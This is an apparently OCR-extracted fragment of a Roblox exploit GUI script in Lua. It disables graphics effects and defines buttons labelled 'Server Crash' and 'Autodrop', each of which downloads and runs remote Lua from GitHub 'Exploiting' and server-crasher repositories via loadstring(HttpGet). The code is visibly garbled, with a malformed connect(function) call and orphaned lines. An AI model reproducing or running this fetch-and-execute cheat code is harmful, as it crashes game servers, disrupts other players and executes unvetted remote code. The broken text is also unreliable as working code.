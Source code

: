 			if v:IsA("Part") or v:IsA("Union") or v:IsA("CornerWedgePart") or v:IsA("TrussPart") then
				v.Material = "Plastic"
				v.Reflectance = 0
			elseif v:IsA("Decal") or v:IsA("Texture") and decalsyeeted then
				v.Transparency = 1
			elseif v:IsA("ParticleEmitter") or v:IsA("Trail") then
				v.Lifetime = NumberRange.new(0)
			elseif v:IsA("Explosion") then
				v.BlastPressure = 1
				v.BlastRadius = 1
			elseif v:IsA("Fire") or v:IsA("SpotLight") or v:IsA("Smoke") then
				v.Enabled = false
			elseif v:IsA("MeshPart") then
				v.Material = "Plastic"
				v.Reflectance = 0
				v.TextureID = 10385902758728957
			end
		end
		for i, e in pairs(l:GetChildren()) do
			if e:IsA("BlurEffect") or e:IsA("SunRaysEffect") or e:IsA("ColorCorrectionEffect") or e:IsA("BloomEffect") or e:IsA("DepthOfFieldEffect") then
				e.Enabled = false
			end
		end		

CrashServer.Name = "CrashServer"
CrashServer.Parent = ButtonsMain
CrashServer.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
CrashServer.BackgroundTransparency = 1.000
CrashServer.Position = UDim2.new(0.52422905, 0, 0.302199662, 0)
CrashServer.Size = UDim2.new(0, 217, 0, 38)
CrashServer.Font = Enum.Font.GothamBold
CrashServer.Text = "Server Crash"
CrashServer.TextColor3 = Color3.fromRGB(0, 0, 0)
CrashServer.TextSize = 30.000
		loadstring(game:HttpGet('https://raw.githubusercontent.com/lerkermer/lua-projects/master/SuperCustomServerCrasher'))() 

Autodrop.Name = "Autodrop"
Autodrop.Parent = ButtonsMain
Autodrop.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
Autodrop.BackgroundTransparency = 1.000
Autodrop.Position = UDim2.new(0, 0, 0.396317303, 0)
Autodrop.Size = UDim2.new(0, 217, 0, 38)
Autodrop.Font = Enum.Font.GothamBold
Autodrop.Text = "Autodrop"
Autodrop.TextColor3 = Color3.fromRGB(0, 0, 0)
Autodrop.TextSize = 30.000
Autodrop.MouseButton1Down:connect(function)
		loadstring(game:HttpGet(("https://raw.githubusercontent.com/Raycodex/Exploiting/main/Roblox/Da%20Hood%20Auto%20Cash%20Drop"), true))()
